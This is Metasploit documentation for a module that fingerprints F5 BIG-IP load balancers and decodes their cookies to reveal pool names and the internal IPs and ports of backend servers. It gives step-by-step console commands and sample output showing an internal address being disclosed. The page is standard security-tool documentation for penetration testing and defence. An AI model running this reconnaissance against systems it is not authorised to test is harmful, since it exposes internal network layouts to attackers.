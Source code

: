 ## Vulnerable Application

This module identifies F5 BIG-IP load balancers and leaks backend information (pool name, routed domain,
and backend servers' IP addresses and ports) through cookies inserted by the BIG-IP systems.

## Verification Steps

1. Start `msfconsole`
1. Do: `use auxiliary/gather/f5_bigip_cookie_disclosure`
1. Do: `set RHOSTS www.example.com`
1. Do: `run`

## Options

### REQUESTS

  The number of requests to send. Default value is `10`.

## Scenarios

### F5 BIP-IP load balancing cookie not found

```
msf5 > use auxiliary/gather/f5_bigip_cookie_disclosure
msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > set RHOSTS www.example.com
RHOSTS => www.example.com
msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > run
[*] Running module against 93.184.216.34

[*] Starting request /
[-] F5 BIG-IP load balancing cookie not found
[*] Auxiliary module execution completed
msf5 auxiliary(gather/f5_bigip_cookie_disclosure) >
```

### F5 BIP-IP load balancing cookie found

```
msf5 > use auxiliary/gather/f5_bigip_cookie_disclosure
msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > set RHOSTS vulnerable-target.com
RHOSTS => vulnerable-target.com
msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > run
[*] Running module against 1.1.1.1

[*] Starting request /
[+] F5 BIG-IP load balancing cookie "BIGipServer~DMZ~EXAMPLE~vulnarable-target-443_pool = 1214841098.47873.0000" found
[+] Load balancing pool name "~DMZ~EXAMPLE~vulnarable-target-443_pool" found
[+] Backend 10.1.105.72:443 found
[*] Auxiliary module execution completed
msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > notes

Notes
=====

 Time                     Host             Service  Port  Protocol  Type                           Data
 ----                     ----             -------  ----  --------  ----                           ----
 2019-08-20 21:21:02 UTC  1.1.1.1                                   f5_load_balancer_cookie_name   "BIGipServer~DMZ~EXAMPLE~vulnarable-target-443_pool"
 2019-08-20 21:21:02 UTC  1.1.1.1                                   f5_load_balancer_pool_name     "~DMZ~EXAMPLE~vulnarable-target-443_pool"
 2019-08-20 21:21:02 UTC  1.1.1.1                                   f5_load_balancer_backends      [{:host=>"10.1.105.72", :port=>443}]
msf5 auxiliary(gather/f5_bigip_cookie_disclosure) >
```

